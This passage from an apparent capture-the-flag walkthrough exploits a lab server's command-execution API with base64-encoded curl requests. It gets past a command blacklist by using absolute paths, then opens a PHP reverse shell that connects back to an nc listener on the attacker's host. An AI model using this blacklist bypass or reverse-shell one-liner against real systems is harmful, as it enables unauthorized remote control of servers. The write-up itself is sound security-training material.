 The View object in parameter is the command to execute. The command is just
base64 encoded before sending it to the server as `object` in the url, the
string2` parameter is the UUID we generate a few lines ago sent in the HTTP
header as 'X-UUID'
parameter, the `object3` parameter is the token to authenticate to the API given
with the curl command just before also sent in the header as 'X-Token' (you may
need to look at the CallAPI method and more particulary at line 182 and 183)

    ::text
    [maggick@rootine ~]$ curl   https://192.168.56.101/do/cmd/$(echo -ne id | base64) --header "X-UUID: 00000000-02e7-1fb5-0000-000003daceff" --header "X-Token: n1dJEyZaiFtRyJSoIl2pzI0HDO6BGw18" --insecure
    {"status":"ok","command":"id","output":"uid=998(nginx) gid=997(nginx) groups=997(nginx)\n"}

We can execute command on the server, let us wrote a simple bash script to
simplify the next steps (we put an echo at the end to have a nice output):

    ::bash
    #!/bin/bash

    curl   https://192.168.56.101/do/cmd/$(echo -ne $1 | base64) --header "X-UUID: 00000000-02e7-1fb5-0000-000003daceff" --header "X-Token: n1dJEyZaiFtRyJSoIl2pzI0HDO6BGw18" --insecure
    echo ''

Let us gather some information about the system (there is a blacklist that block
us and forgive us to directly use `ls` but the absolute path works):

    ::text
    [maggick@rootine ~]$ ./p ls
    {"status":"error","output":"Command 'ls' contains a banned command."}
    [maggick@rootine ~]$ ./p /bin/ls
    {"status":"ok","command":"\/bin\/ls","output":"index.php\ntest.php\n"}

## Shell exploitation

### Reverse shell

From there we can get an interactive reverse shell. Let us use the php reverse
shell from
[pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

We need to listen on our host machine for the server connection:

    ::text
    nc -v -n -l -p 8080

Then we need to open the connection from the server:

    ::text
    /bin\/php -r '$sock=fsockopen(\"192.168.56.1\",8080);exec(\"\/bin\/sh -i <&4 >&4 2>&4\");'

It works with no more restriction:

    ::text
    sh-4.2$ id
    id
    uid=998(nginx) gid=997(nginx) groups=997(nginx)
